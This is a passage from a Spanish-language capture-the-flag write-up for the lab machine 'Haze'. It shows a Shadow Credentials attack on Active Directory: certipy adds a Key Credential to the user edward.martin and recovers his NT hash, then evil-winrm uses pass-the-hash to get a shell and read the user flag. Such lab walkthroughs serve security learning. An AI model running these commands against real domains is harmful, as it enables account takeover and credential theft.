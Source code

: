 Esta técnica contempla modificar el atributo `msDS-KeyCredentialLink`, añadiendo credenciales alternativas en forma de certificados, permitiendo autenticarnos como el usuario víctima sin conocer su contraseña.

Utilizaremos el TGT que solicitamos hace un momento y utilizaremos `certipy`, que automatiza la autenticación con el certificado

~~~ bash
KRB5CCNAME=Haze-IT-Backup.ccache certipy shadow auto -u 'Haze-IT-Backup$' -k -target dc01.haze.htb -account edward.martin -dc-ip 10.10.11.61
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Targeting user 'edward.martin'
[*] Generating certificate
[*] Certificate generated
[*] Generating Key Credential
[*] Key Credential generated with DeviceID '9059b6c6-b3d6-76a8-418a-7f4b7d012898'
[*] Adding Key Credential with device ID '9059b6c6-b3d6-76a8-418a-7f4b7d012898' to the Key Credentials for 'edward.martin'
[*] Successfully added Key Credential with device ID '9059b6c6-b3d6-76a8-418a-7f4b7d012898' to the Key Credentials for 'edward.martin'
[*] Authenticating as 'edward.martin' with the certificate
[*] Using principal: edward.martin@haze.htb
[*] Trying to get TGT...
[*] Got TGT
[*] Saved credential cache to 'edward.martin.ccache'
[*] Trying to retrieve NT hash for 'edward.martin'
[*] Restoring the old Key Credentials for 'edward.martin'
[*] Successfully restored the old Key Credentials for 'edward.martin'
[*] NT hash for 'edward.martin': 09e0b3eeb2e7a6b0d419e9ff8f4d91af
~~~


## Shell as `edward.martin`

Es posible tanto utilizar el archivo  `.ccache` como hacer PassTheHash para conectarnos al dominio con una consola de `powershell`

~~~ bash
evil-winrm -i dc01.haze.htb -u edward.martin -H '09e0b3eeb2e7a6b0d419e9ff8f4d91af' 

*Evil-WinRM* PS C:\Users\edward.martin\Documents> whoami
haze\edward.martin
~~~

En este punto ya podemos ver la flag del usuario sin privilegios

~~~ bash
*Evil-WinRM* PS C:\Users\edward.martin\Documents> type ..\Desktop\user.txt 
d7d...
~~~
<br>


# Escalada de Privilegios
---
## Finding Privilege Escalation Vector
